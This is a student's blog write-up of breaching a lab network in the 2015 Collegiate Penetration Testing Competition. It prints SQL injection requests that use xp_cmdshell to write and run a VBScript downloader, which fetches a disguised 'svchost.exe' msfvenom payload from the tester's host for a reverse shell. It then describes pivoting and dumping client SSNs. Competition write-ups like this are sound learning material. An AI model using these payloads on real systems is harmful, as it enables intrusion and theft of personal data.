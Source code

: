 ```yaml
---
layout: post
title: Revisiting CPTC 2015
---
```


Back in November, I was a member of the RIT team in the first ever Collegiate Penetration Testing Competition (CPTC). To read more about the event, check out [this post](/2015/11/13/cptc-2015/). Given that this was the first year of the competition, there were a few compounding technical difficulties that led to a change of plans. Specifically, the infrastructure the competition was hosted on experienced some unpatched bugs that led to nonstop kernel panics, resulting in a backup infrastructure being deployed and used for the remainder of the competition. Due to the quick change of plans, the original intricately-designed infrastructure only saw the light of day for a few hours. The competition directors decided to re-open the infrastructure at a later date for teams to get the full intended experience of the competition.

This write-up details the path I took to breaching a data store in the competition network. Due to time constraints, I wasn’t able to discover all of the vulnerabilities available, so this write-up covers the progress I was able to make.

As part of our contract with the client, FinAck Government Industries, we were provided with a list of IP ranges and domains that would be in-scope for the test. Included in those ranges were the 172.22.16.0/24 and 172.22.17.0/24 networks and the fing.ov and ack.corp domains. The competition network was divided into the FinGov and AckCorp networks, with a few connections between them.

After running a port scan on the in-scope IPs, I discovered a web server on 172.22.16.2 (www.fing.ov) and the domain controller at 172.22.16.1 (ad-dc-01.fing.ov). The 172.22.17.0/24 network was inaccessible from my Kali box’s network position. Browsing to www.fing.ov revealed the company’s website.

[![FinGov website](/resources/cptc2015/fingov1.PNG)](/resources/cptc2015/fingov1.PNG)

The search function seemed like a promising target for SQL injection, but ended up not being functional. Continuing through the site, I found a careers page that uses an ‘id’ parameter to retrieve jobs.

[![FinGov careers page](/resources/cptc2015/fingov2.PNG)](/resources/cptc2015/fingov2.PNG)

The id parameter was SQL injectable:

[![FinGov SQL injection proof](/resources/cptc2015/fingov3.PNG)](/resources/cptc2015/fingov3.PNG)

After some prodding, I discovered the backend database was running MSSQL, and I could use xp_cmdshell to execute commands. To achieve a reverse shell on the database server, I created a binary payload using msfvenom.

[![msfvenom payload creation](/resources/cptc2015/shell1.PNG)](/resources/cptc2015/shell1.PNG)

Now I needed to get the binary on to the database server and run it. I spun up Apache on my Kali box to host the binary, and after some trial and error, used the [following VBScript](http://stackoverflow.com/questions/2973136/download-a-file-with-vbs/2973344#2973344) to download the file:

```vbscript
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", "http://172.25.4.28:9001/svchost.exe", False : xHttp.Send
with bStrm : .type = 1 : .open : .write xHttp.responseBody : .savetofile "C:\WINDOWS\Temp\svchost.exe", 2 : end with
```

The script needed to be sent to the database server by exploiting the SQL injection. I used xp_cmdshell to create the script, run it, and then run the downloaded binary. I sent the following requests to accomplish this:

```
172.22.16.2/careers.aspx?id=1; exec xp_cmdshell 'echo dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP") : dim bStrm: Set bStrm = createobject("Adodb.Stream") : xHttp.Open "GET", "http://172.25.4.28:9001/svchost.exe", False : xHttp.Send : with bStrm : .type = 1 : .open : .write xHttp.responseBody : .savetofile "C:\WINDOWS\Temp\svchost.exe", 2 : end with > C:\WINDOWS\Temp\script.vbs' --

172.22.16.2/careers.aspx?id=1; exec xp_cmdshell 'cscript C:\WINDOWS\Temp\script.vbs' --

172.22.16.2/careers.aspx?id=1; exec xp_cmdshell 'C:\WINDOWS\Temp\svchost.exe' --
```

Soon enough, I had a reverse shell on the MSSQL server (webdb2.fing.ov)!

[![Meterpreter session on webdb2](/resources/cptc2015/shell2.PNG)](/resources/cptc2015/shell2.PNG)

Going back to www.fing.ov, I decided to take another look at the exposed ports, and tested its Windows 2003 OS with MS08-067 and MS10-061 exploits. MS10-061 did the trick, and I was in to www.fing.ov with SYSTEM privileges. From www.fing.ov I was able to access the rest of the 172.22.17.0/24 network, and created a SOCKS proxy to tunnel traffic through the exploited web server. Using proxychains, I scanned the 172.22.17.0/24 network but didn’t find any further exploits. I went back to the web server and started picking through the web root until I found the database username and password in the source code of the careers page.

[![SQL credentials in source code](/resources/cptc2015/sqlcreds1.PNG)](/resources/cptc2015/sqlcreds1.PNG)

From there, I installed [sql-cli](https://github.com/hasankhan/sql-cli) on Kali and tunneled it through proxychains to log in to MSSQL. Poking through the database led me to the client_data table, where the SSNs, company names, phone numbers, and addresses of FinGov’s clients were stored.

[![PII dump](/resources/cptc2015/sqlcreds2.PNG)](/resources/cptc2015/sqlcreds2.PNG)

This was as far as I was able to get on the infrastructure. If I had more time, I would have continued poking at the other machines on the 172.22.17.0/24 network and tried to escalate privileges on webdb2.fing.ov.

Participating in the CPTC was an awesome learning experience. Re-opening the infrastructure for a longer period of time allowed myself and my teammates to focus on the systems and learn on the fly without the pressure of the competition. Every time I sat down to pick up where I left off, I got a little bit further and walked away having learned something new. Looking forward to next year’s competition!
